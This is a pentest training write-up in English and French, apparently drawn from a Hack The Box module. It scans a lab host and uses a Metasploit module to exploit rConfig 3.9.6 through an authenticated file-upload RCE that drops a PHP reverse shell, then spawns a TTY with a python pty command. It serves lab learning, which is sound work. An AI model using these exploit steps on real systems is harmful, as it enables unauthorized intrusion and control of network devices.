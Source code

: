 # Infiltrating Unix/Linux

***

### <mark style="color:red;">Common Considerations</mark>

* What distribution of Linux is the system running?
* What shell & programming languages exist on the system?
* What function is the system serving for the network environment it is on?
* What application is the system hosting?
* Are there any known vulnerabilities?

***

### <mark style="color:red;">Gaining a Shell Through Attacking a Vulnerable Application</mark>

<mark style="color:green;">**Enumerate the Host**</mark>

```bash
mrroboteLiot@htb[/htb]$ nmap -sC -sV 10.129.201.101

Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-27 09:09 EDT
Nmap scan report for 10.129.201.101
Host is up (0.11s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 2.0.8 or later
22/tcp   open  ssh      OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2d:b2:23:75:87:57:b9:d2:dc:88:b9:f4:c1:9e:36:2a (RSA)
|   256 c4:88:20:b0:22:2b:66:d0:8e:9d:2f:e5:dd:32:71:b1 (ECDSA)
|_  256 e3:2a:ec:f0:e4:12:fc:da:cf:76:d5:43:17:30:23:27 (ED25519)
80/tcp   open  http     Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34
|_http-title: Did not follow redirect to https://10.129.201.101/
111/tcp  open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
443/tcp  open  ssl/http Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2021-09-24T19:29:26
|_Not valid after:  2022-09-24T19:29:26
|_ssl-date: TLS randomness does not represent time
3306/tcp open  mysql    MySQL (unauthorized)
```

`What information could we gather from the output?`

* Le système écoute sur les ports **80 (HTTP), 443 (HTTPS), 3306 (MySQL), et 21 (FTP)** → probablement un **serveur web avec application hébergée**.
* Informations récupérées : **Apache 2.4.6**, **PHP 7.2.34**, et distribution **Linux CentOS**.
* Avant de se lancer dans des recherches approfondies, il est conseillé de **naviguer vers l’IP via un navigateur** pour identifier l’application hébergée et mieux orienter l’analyse.
* Ces observations aident à choisir le **vecteur d’attaque ou de test** le plus pertinent pour l’exploitation ou le pentest.

<mark style="color:green;">**rConfig Management Tool**</mark>

![image](https://academy.hackthebox.com/storage/modules/115/rconfig.png)

{% hint style="danger" %}
Here we discover a network configuration management tool called [rConfig](https://www.rconfig.com). This application is used by network & system administrators to automate the process of configuring network appliances. One practical use case would be to use rConfig to remotely configure network interfaces with IP addressing information on multiple routers simultaneously. This tool saves admins time but, if compromised, could be used to pivot onto critical network devices that switch & route packets across the network. A malicious attacker could own the entire network through rConfig since it will likely have admin access to all the network appliances used to configure. As pentesters, finding a vulnerability in this application would be considered a very critical discovery.
{% endhint %}

***

### <mark style="color:red;">Discovering a Vulnerability in rConfig</mark>

* En bas de la page de connexion, repérer la version : **rConfig 3.9.6**.
* Utiliser cette version comme point de départ pour rechercher **CVE**, exploits publics et PoC.
* Lors de la recherche, lire attentivement chaque résultat et comprendre exactement ce que fait l’exploit/PoC.
* L’objectif final est d’identifier quelque chose qui pourrait conduire à une **session shell** sur la cible (si autorisé).
* Mots‑clés utiles pour la recherche : **`rConfig 3.9.6 vulnerability`**.

![image](https://academy.hackthebox.com/storage/modules/115/rconfigresearch.png)

<mark style="color:green;">**Search For an Exploit Module**</mark>

{% code fullWidth="true" %}
```shell-session
msf6 > search rconfig

Matching Modules
================

   #  Name                                             Disclosure Date  Rank       Check  Description
   -  ----                                             ---------------  ----       -----  -----------
   0  exploit/multi/http/solr_velocity_rce             2019-10-29       excellent  Yes    Apache Solr Remote Code Execution via Velocity Template
   1  auxiliary/gather/nuuo_cms_file_download          2018-10-11       normal     No     Nuuo Central Management Server Authenticated Arbitrary File Download
   2  exploit/linux/http/rconfig_ajaxarchivefiles_rce  2020-03-11       good       Yes    Rconfig 3.x Chained Remote Code Execution
   3  exploit/unix/webapp/rconfig_install_cmd_exec     2019-10-28       excellent  Yes    rConfig install Command Execution
```
{% endcode %}

* La recherche mène au code source d’un module d’exploit nommé **rconfig\_vendors\_auth\_file\_upload\_rce.rb**.
* Ce module permet d’obtenir une **shell** sur une machine Linux exécutant **rConfig 3.9.6**.
* Si `msfconsole` ne le trouve pas localement, on peut **télécharger/coller** le fichier du repo sur notre machine d’attaque.
* Placer le fichier dans le **répertoire des modules Metasploit** utilisé par votre installation (pour qu’il soit détecté par MSF).
* Lancer `msfconsole`, **recharger** les modules si nécessaire, puis `use` le module et configurer les options pour l’exécution.

<mark style="color:green;">**Locate**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ locate exploits
```

* Repérer les répertoires des modules Metasploit sur la machine (sur Pwnbox : `/usr/share/metasploit-framework/modules/exploits`).
* Copier le code de l’exploit dans un sous‑répertoire approprié, par ex. `/usr/share/metasploit-framework/modules/exploits/linux/http`, en gardant la même organisation que sur le dépôt GitHub.
* Sauvegarder le fichier avec l’extension `.rb` (tous les modules Metasploit sont écrits en Ruby).
* Télécharger le fichier depuis GitHub avec `wget` ou coller le code manuellement dans le fichier local.
* Mettre Metasploit à jour via le gestionnaire de paquets (ex. `apt update; apt install metasploit-framework`) ou la méthode propre à votre distro.
* Après avoir ajouté le module, recharger/relancer Metasploit pour qu’il détecte le nouveau fichier, puis `use` le module et configurer les options.
* Toujours n’effectuer ces actions que dans un cadre **autorisé et légal** (pentest avec consentement explicite).

***

### <mark style="color:red;">Using the rConfig Exploit and Gaining a Shell</mark>

<mark style="color:green;">**Select an Exploit**</mark>

```shell-session
msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```

With this exploit selected, we can list the options, input the proper settings specific to our network environment, and launch the exploit.

Use what you have learned in the module thus far to fill out the options associated with the exploit.

<mark style="color:green;">**Execute the Exploit**</mark>

```shell-session
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > exploit
```

We can see from the steps outlined in the exploitation process that this exploit:

* Checks for the vulnerable version of rConfig
* Authenticates with the rConfig web login
* Uploads a PHP-based payload for a reverse shell connection
* Deletes the payload
* Leaves us with a Meterpreter shell session

<mark style="color:green;">**Interact With the Shell**</mark>

<pre class="language-shell-session"><code class="lang-shell-session"><strong>meterpreter > shell
</strong></code></pre>

***

### <mark style="color:red;">Spawning a TTY Shell with Python</mark>

* **Non‑TTY = shell limité** : pas d’invite, peu d’interactivité (pas de job control, éditeurs interactifs inutilisables).
* **Cause courante** : le payload s’est lancé sous un compte système (ex. `apache`) qui n’a pas d’environnement interactif complet.
* **Conséquences pratiques** : certaines commandes interactives ou d’élévation (`su`, `sudo`, éditeurs, raccourcis clavier) peuvent ne pas fonctionner correctement.
* **Vérifier la présence d’outils** : on peut contrôler si un interpréteur (ex. Python) est installé — information utile pour la suite.
* **Solution conceptuelle** : si un interpréteur est présent, on peut demander à ce dernier d’allouer une vraie pseudo‑TTY (pty) pour améliorer l’interactivité — ceci nécessite des étapes techniques.
* **Alternatives sûres** : utiliser des sessions gérées (ex. Meterpreter) ou refaire l’exercice dans un lab (HTB, VulnHub, etc.) pour éviter tout risque sur des cibles non autorisées.

<mark style="color:green;">**Interactive Python**</mark>

```shell-session
python -c 'import pty; pty.spawn("/bin/sh")' 

sh-4.2$         
sh-4.2$ whoami
whoami
apache
```

This command uses python to import the [pty module](https://docs.python.org/3/library/pty.html), then uses the `pty.spawn` function to execute the `bourne shell binary` (`/bin/sh`). We now have a prompt (`sh-4.2$`) and access to more system commands to move about the system as we please.

{% hint style="warning" %}
Lorsqu'un payload est exécuté, par exemple via un serveur web (comme Apache), il est exécuté dans le contexte de l'utilisateur qui exécute le serveur. Dans ce cas, cela pourrait être l'utilisateur **apache**. Cet utilisateur n'a souvent pas un accès complet au système et peut ne pas avoir une **shell interactive** par défaut. En fait :

* **Absence d'une configuration d'environnement adéquate** : L'utilisateur Apache n'a pas nécessairement les mêmes variables d'environnement que les utilisateurs normaux, ce qui signifie que des shells comme `/bin/bash` ou `/bin/sh` peuvent ne pas se comporter comme prévu.
{% endhint %}

